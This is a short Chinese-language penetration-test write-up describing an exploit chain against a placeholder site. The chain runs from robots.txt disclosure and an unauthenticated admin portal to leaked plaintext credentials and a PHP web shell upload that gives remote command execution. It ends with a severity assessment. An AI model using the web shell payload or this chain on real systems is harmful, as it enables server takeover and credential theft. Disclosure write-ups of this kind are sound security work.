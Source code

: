 这意味着我已成功实现了远程代码执行，可以在目标服务器上运行任意命令。  
## 最终漏洞利用证明  
### 1. robots.txt信息泄露：  
```
curl https://target.com/robots.txt

```  
  
输出结果：  
```
Disallow: /admin-portal-testing/
Disallow: /internal-debug-xyz/
Disallow: /staging-panel/

```  
### 2. 访问管理门户：  
```
GET /admin-portal-testing/ HTTP/1.1
Host: target.com

```  
### 3. 提取凭据信息：  
```
{
  "db_password": "P@ssw0rd123",
  "token": "eyJhbGciOi..."
}

```  
### 4. 通过上传实现远程代码执行：  
```
<?php system($_GET['cmd']); ?>

```  
  
访问路径：  
```
https://target.com/staging-panel/uploads/shell.php?cmd=id

```  
## 安全影响：为何这是一个严重漏洞  
  
这组漏洞链的严重性体现在以下几个方面：  
1. 多个敏感端点被公开暴露  
  
1. 管理门户可在无身份验证的情况下访问  
  
1. 调试数据中包含明文凭据和令牌  
  
1. 在测试环境中存在远程代码执行漏洞  
  
1. 没有触发任何安全警报或WAF拦截  
  